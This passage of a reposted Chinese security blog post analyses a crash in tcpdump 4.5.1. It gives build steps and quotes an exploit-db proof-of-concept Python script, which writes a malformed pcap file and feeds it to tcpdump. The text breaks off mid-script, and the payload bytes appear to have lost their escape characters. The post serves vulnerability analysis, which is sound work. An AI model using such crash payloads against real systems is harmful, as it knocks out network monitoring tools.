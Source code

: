 > 原文链接: https://www.anquanke.com//post/id/166711 


# tcpdump 4.5.1 crash 深入分析


                                阅读量   
                                **200879**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t010764e28d1b48515e.png)](https://p3.ssl.qhimg.com/t010764e28d1b48515e.png)

在看[WHEREISK0SHL](https://whereisk0shl.top/post/2016-10-23-1)大牛的博客，其分析了`tcpdump4.5.1 crash` 的原因。跟着做了一下，发现他的可执行程序是经过`stripped`的，而且整个过程看的比较懵，所以自己重新实现了一下，并从源码的角度分析了该`crash`形成的原因。

## 构建环境

```
kali 2.0
apt install gcc gdb libpcap-dev -y
wget https://www.exploit-db.com/apps/973a2513d0076e34aa9da7e15ed98e1b-tcpdump-4.5.1.tar.gz
./configure
make
```

未修复版本

```
root@kali32:~# tcpdump --version
tcpdump version 4.5.1
libpcap version 1.8.1
```

payload(来自exploit-db)

```
# Exploit Title: tcpdump 4.5.1 Access Violation Crash
# Date: 31st May 2016
# Exploit Author: David Silveiro
# Vendor Homepage: http://www.tcpdump.org
# Software Link: http://www.tcpdump.org/release/tcpdump-4.5.1.tar.gz
# Version: 4.5.1
# Tested on: Ubuntu 14 LTS

from subprocess import call
from shlex import split
from time import sleep

def crash():
    command = 'tcpdump -r crash'

    buffer     =   'xd4xc3xb2xa1x02x00x04x00x00x00x00xf5xff'
    buffer     +=  'x00x00x00Ix00x00x00xe6x00x00x00x00x80x00'
    buffer     +=  'x00x00x00x00x00x08x00x00x00x00&lt;x9c7@xffx00'
    buffer     +=  'x06xa0rx7fx00x00x01x7fx00x00xecx00x01xe0x1a'
    buffer     +=  "x00x17g+++++++x85xc9x03x00x00x00x10xa0&amp;x80x18'"
    buffer     +=  "xfe$x00x01x00x00@x0cx04x02x08n', 'x00x00x00x00"
    buffer     +=  'x00x00x00x00x01x03x03x04'


    with open('crash', 'w+b') as file:
```